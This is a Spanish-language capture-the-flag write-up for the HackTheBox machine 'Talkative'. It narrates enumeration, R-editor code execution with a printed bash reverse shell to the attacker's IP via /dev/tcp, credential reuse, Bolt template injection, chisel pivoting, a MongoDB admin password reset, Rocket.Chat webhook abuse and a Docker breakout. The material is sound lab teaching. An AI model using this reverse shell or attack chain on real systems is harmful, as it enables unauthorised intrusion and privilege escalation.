




Empezamos tramitando una petición icmp o ping para verificar si tenemos conexión con la máquina.
$ ping 10.10.11.155
El primer escaneo que utilizaré va ser el siguiente:
Luego de saber los puertos que están abiertos, verificamos la version y el servicio que están
corriendo en cada puerto:

A primera vista, vemos un apache, cuando visitamos la página nos redirige hacia un dominio llamado
“talkative.htb”, pero de normal la pc no sabe a qué hace referencia ese nombre, así que vamos a
nuestro archivo “/etc/hosts” y agregamos la direccion IP y el nombre al que hace referencia
para que lo reconozca.
$ /etc/hosts
10.10.11.155 talkative.htb
Ahora si cuando ponemos la direccion ip en el navegador, nos redirige a la página y nos carga sin problema.
Lo segundo que veo en el escaneo nmap que realizamos anteriormente es un puerto 3000 abierto que nos redirige hacia otra página.

También tenemos un puerto 8080 abierto el cual nos redirige al siguiente.
En esta última página, vemos un mensaje el cual nos dice que esa version es vulnerable que es necesario actualizar.
Bueno en este apartado de tipo hoja de cálculo, filas, celdas…
Me llamo la atención esa simbolo de R (Lenguaje de programación), así que al darle nos abre un editor, el cual nos permite
ejecutar comando, como no sabía cuál era la sintaxis de este lenguaje, investigué un poco y llegué a esto.

El cual nos permite ejecutar comandos dentro de la máquina.
Me puse en escucha en el puerto 2020
$ nc -nlvp 2020
E intente enviarme una reverse shell a mi maquina atacante.
$ system("bash -c 'bash -i >& /dev/tcp/10.10.14.63/2020 0>&1'")
Al revisar, me pude dar cuenta que no es la maquina victima, mas bien es un contenedor, dentro del contenedor, no
hay mucho que buscar, pero dentro del directorio /root, tenemos un archivo comprimido.
El cual me pase a mi máquina para descomprimirlo y examinarlo.
Dentro del archivo .zip que descomprimí y encontré lo siguiente

Explorando los archivos, encontré algunos nombres de usuarios en “xdata.json”
El archivo se veía de la siguiente manera:
Como es un archivo .json, para poder verlo mejor use un "| jq" para reorganizarlo.

Ya que está un poco más ordenado
Podemos filtrar por talative.htb
Para quitar las comas:
Para quitar las comillas y quilar algunos nombres repetidos, podemos aplicar el siguiente filtro.
Ahí tengo unos usuarios, solo tenemos que encontrar una manera de verificar si son válidos
Pero además de eso habíamos visto algunas contraseñas:
Entonces, anteriormente cuando pasamos el archivo comprimido, el nombre del archivo, era:
$ bolt-administration.omv
Básicamente bolt, se está utilizando en la página actual, investigando un poco quise ver si había alguna página de registro por defecto.
Así que, probando credenciales obtenidas, logré ingresar.
Ya dentro, esto funciona de la misma manera que otros gestores de contenido, editamos una plantilla, agregamos un payload y nos ponemos
en escucha mediante un puerto e ingresamos a otro contenedor.
Como podemos ver, estamos en otro contenedor.
Estando en este contenedor, veo que hay varios contenedores desde la misma máquina, como las direcciones ip básicamente son las mismas, quise probar a ver que puertos estarían abiertos desde la 172.17.0.1, monté un pequeño script.
El resultado fue el siguiente:
Veo que el puerto ssh está abierto y en la maquina en la que estoy actualmente está instalado, ya que en el anterior contenedor no tenía capacidad de nada.
Ya que tenemos nombres de usuarios y contraseñas extraídas anteriormente, podemos probar para ver si nos podemos conectar.

Donde podemos ver la user.txt
Ahora tenemos que escalar privilegios
Luego de revisar la maquina, quise utilizar “pspy”, pspy es una herramienta que nos permite obtener informacion de procesos sin tener privilegios root en el sistema.
Con pspy pude ver que está disponible el servicio mongodb, el cual está en otro contenedor, pero es posible conectarme a la base de datos utilizando un
programa llamado chisel, solo hay que descargar el servicio de mongosh en nuestra maquina atacante y descargar chisel y hacerlo de la siguiente manera.
Desde nuestra maquina atacante abrimos el servidor chisel
Pasamos el chisel a la maquina víctima, lo ejecutamos de la siguiente manera con el puerto seleccionado.
Luego de estar activo, solo abrimos el mongosh en nuestra maquina y se nos va a conectar automáticamente a la maquina víctima, al contenedor especificamente
Dentro de una de las bases de datos, tenemos una tabla de users y dentro, si vemos el contenido de la tabla podemos ver un usuario que supuestamente es
administrador, y una contraseña encriptada, para el apartado de rocket chat que vimos anteriormente en el puerto 3000, bueno podemos intentar cambiar la
contraseña en la base de datos mediante un comando
Básicamente cambiamos la contraseña a 12345, con el nombre de usuario admin.
Y ya tenemos acceso
Dentro del apartado Administración, podemos ver muchas opciones.
Como por ejemplo la version.
Si buscamos en Google, rocket chat con la version a ver si hay algun Exploit, por ejemplo.
Pude encontrar lo siguiente
El cual nos dice que, siendo administradores en el apartado de integraciones, podemos ejecutar un comando.

Cuando lo guardamos, si volvemos al apartado de integraciones, nos da una direccion URL la cual, si nos ponemos en escucha y la ponemos en el navegador, pasa lo siguiente.
Estamos como root, ahora podríamos implementar un docket breakout para elevar los privilegios y salir del Docker.
Descargamos un programa llamado cdk en github.
Lo pasamos a la maquina víctima, ya que la maquina no tiene wget, o curl o alguna forma de transferir el archivo, podemos usar la siguiente forma.

Como vemos ya pasamos el archivo:

Lo ejecutamos con el parametro “evaluate” y nos muestra lo siguiente.

Nos dice que podemos leer archivos de la maquina host con el comando que nos muestra

Information
- #Pentesting #Cybersecurity #RedTeam
- Machine: Talkative
- Difficulty: Hard
- Plataforma: HACKTHEBOX
- Sistema Operativo: Linux
- Skills: Jamovi Enumeration Rj Editor Code Execution (Reverse Shell) Information Leakage Bolt - Access to the administration panel Bolt - PHP File Manipulation (Injecting Malicious Code) [RCE] PIVOTING Detecting tasks running on the system - PSPY Remote Port Forwarding - Chisel MongoDB - Changing the admin user password Abusing Rocket.Chat - Creating a new malicious webhook File Upload Tip - Playing with PwnCat-CS Docker Breakout - CDK Utility